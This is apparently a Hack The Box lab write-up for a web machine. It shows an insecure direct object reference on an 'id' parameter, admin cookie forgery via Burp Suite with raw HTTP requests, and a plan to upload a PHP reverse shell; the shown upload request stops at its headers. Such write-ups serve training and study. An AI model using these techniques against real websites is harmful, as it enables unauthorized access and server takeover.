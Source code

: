 And we found a path to the website's login page, so we visited it.

![](/home/dodo/Documents/HTB/HTB_lab/HTB_labs/.Oopse_img/oo.png)

Let's try our luck and try the combination admin/admin. 

Not this time



What's left for us is to log in as a guest and take a look for some elevation of privilege



![](/home/dodo/Documents/HTB/HTB_lab/HTB_labs/.Oopse_img/ooo.png)



Inside the 'Account' card, we see a table with users. When we check, we  found that the Access ID and name are the same as the cookies for our  user.



![](/home/dodo/Documents/HTB/HTB_lab/HTB_labs/.Oopse_img/oooo.png)



We also noticed a parameter within the link that we can manipulate. When we attempt to modify this parameter to '1,' we are able to view the  Access ID and name for the website's admin in the table. What we can do  next is use these values as cookies using Burp Suite.



![](/home/dodo/Documents/HTB/HTB_lab/HTB_labs/.Oopse_img/ooooo.png)



```           http
GET /cdn-cgi/login/admin.php?content=accounts&id=1 HTTP/1.1
Host: 10.129.245.13
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: user=34322; role=admin 
Upgrade-Insecure-Requests: 1
```



The 'uploads' section is intended only for administrators. With our  newfound admin website privileges, we can now send a PHP reverse shell  to the server.

![](/home/dodo/Documents/HTB/HTB_lab/HTB_labs/.Oopse_img/ooooooo.png)

```          http
Host: 10.129.245.13
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.245.13/cdn-cgi/login/admin.php?content=uploads
Content-Type: multipart/form-data; boundary=---------------------------32846801334168837286513914441
Content-Length: 5836
Origin: http://10.129.245.13
DNT: 1
Connection: close
Cookie: user=34322; role=admin 
Upgrade-Insecure-Requests: 1
```
